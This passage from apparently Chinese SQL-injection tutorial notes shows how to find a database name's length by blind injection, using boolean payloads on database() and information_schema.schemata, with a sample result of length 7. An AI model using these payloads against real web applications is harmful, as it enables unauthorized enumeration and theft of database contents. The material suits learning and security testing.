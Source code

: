 ![image-20250222003626457](static/image/image-20250222003626457.png)

#### 判断数据库名长度

```mysql
# database() 是当前数据库
AND ((SELECT LENGTH(database()))=7)
# 以下是指定数据库，通过第x个以数字代表来指定某个数据库。从 0 开始
AND ((SELECT LENGTH(schema_name) FROM information_schema.schemata limit 第x个数据库,1)=7)
```

```
第一个数据库名长度为 7
```
